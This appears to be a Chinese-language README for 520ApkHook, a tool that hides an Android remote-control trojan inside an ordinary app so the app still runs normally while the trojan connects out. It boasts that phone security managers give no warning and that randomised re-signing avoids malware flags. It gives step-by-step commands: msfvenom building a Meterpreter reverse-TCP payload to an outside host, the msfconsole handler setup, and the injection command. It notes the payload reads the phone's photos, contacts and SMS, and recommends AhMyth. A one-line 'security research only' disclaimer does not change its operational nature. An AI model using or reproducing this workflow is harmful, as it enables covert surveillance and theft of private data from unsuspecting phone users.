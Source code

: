 # 520_APK_HOOK

## 介绍

* 将编写的安卓远控程序，注入到正常的App中，运行app时安卓远控程序也会上线。

* 修复上一版本的bug，使用java重写，同时还重写了520ApkBox程序，专门用来运行运行APP和远控App。

* 520ApkBox是一个java编写的App，主要作用是一个安卓虚拟机，任何App可以不用任何修改就可以正常运行，可以绕过现在各种App的安全检测。同时此App还是一个加载器，通过DexClassesLoder加载远控的Dex文件并启动上线。

* 520ApkHook是Java编写的注入工具，将被注入的App和远控App注入到一个App中。

* 项目地址:  [https://github.com/ba0gu0/520apkhook](https://github.com/ba0gu0/520apkhook)

* 作者: BaoGuo

## 版本升级

* 2024-05-21
  * 修复了520apkhook的相关问题（app中文名报错、apk签名被标记。）

  * 新增了随机签名的功能，先获取原始app的相关签名信息，根据这些信息重新生成新的签名，签名密码每次都不一样，避免被标记。(有些app会无法识别签名信息，可以自己用jadx获取到app的签名信息，然后生成证书，使用[ApkSigner](https://github.com/jixiaoyong/ApkSigner)进行重新签名。华为目前还有问题，改签名也会被识别恶意app)

  * 更换了两个安卓虚拟机，[NewBlackbox](https://github.com/ALEX5402/NewBlackbox)、[SpaceCore](https://github.com/FSpaceCore/SpaceCore)。安卓版本支持到`5-14`。

  * 新增了`-b, --boxName`参数，用来指定`SpaceCore`还是`NewBlackBox`，默认SpaceCore，如果出现卡顿或者闪退，可以尝试切换到NewBlackBox。直接指定参数 `-b NewBlackBox` 即可。

* 2023-06-05
  * 上版本忘记添加32位app支持，此次升级加入32位app支持。更换了虚拟机项目依赖，稳定性更好一下。

  * 支持安卓5-12版本，不支持最新的安卓13。

  * 问题1、目前有问题的app，微信、ES文件浏览器。

  * 问题2、被注入的app读取到的文件、图片、通讯录、短信是虚拟机的内容，但是注入的payload获取到的是实体机的内容。


## 优点

* 相比于普通的安卓远控，此版本app在进行远控时，被注入的app可以正常运行。

* 注入后的app在安装时，手机管家不会有任何安全提示，普通的远控程序，安装时手机管家会有安全警示。

* 理论上来说，只要远控软件使用的是纯Java或者Kotlin编写，就可以使用，不一定必须是msf生成的apk。


## 使用

1. 下载Releases中打包好的jar包  

 * [a520ApkHook-1.2-jar-with-dependencies.jar](https://github.com/ba0gu0/520apkhook/releases/download/v2.0/a520ApkHook-1.2-jar-with-dependencies.jar)

2. msfmsfvenom

```shell

msfvenom -p android/meterpreter/reverse_tcp lhost=114.114.114.114 lport=3306 -o ~/Downloads/msf.apk

```
3. msfconsole

```shell
# 启动 msfconsole

use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 3306
set exitonsession false
exploit -j
```
4. 520ApkHook

> msf由于加载机制问题，需要`-o`参数，才可以获取照片、通讯录、短信等。
>
> 如果在运行app时，提示版本太老、一堆权限提示，可以把`-o`去掉，但是权限会出问题。

```shell

java -jar a520ApkHook-1.0-jar-with-dependencies.jar -o ~/Downloads/想进行注入的App.apk ~/Downloads/msf.apk

```

5. BaoGuo仍给你一个Apk，请安装它!

### 搭配其他远控使用

* 推荐搭配`AhMyth`，配在一起贼爽。

> 使用AhMyth时，不需要添加`-o`参数，不然app会提示版本太老，一堆权限提示太假。
>
> [https://github.com/Morsmalleo/AhMyth](https://github.com/Morsmalleo/AhMyth)


## BUG

* 使用SpaceCore作为基础容器，能运行90%的app，但可能会出现app不流畅。
* 使用NewBlackBox作为基础容器，目前测试不能在模拟器中运行，微信无法启动。
* 其他未测试...

## 项目依赖

* 本项目参考以下项目
* [https://github.com/ALEX5402/NewBlackbox](https://github.com/ALEX5402/NewBlackbox)
* [https://github.com/FSpaceCore/SpaceCore](https://github.com/FSpaceCore/SpaceCore)


## 重点说明

* 本项目仅用于安全研究, 禁止利用脚本进行攻击, 使用本脚本产生的一切问题和本人无关.

* 由于此软件是基于安卓虚拟化来实现的，虚拟化软件对于不同版本的系统会出现BUG，可以自行修改520ApkBox项目源码 (欢迎大佬提交pull) .



## Start 曲线

[![Start 曲线](https://starchart.cc/ba0gu0/520apkhook.svg)](https://starchart.cc/ba0gu0/520apkhook)
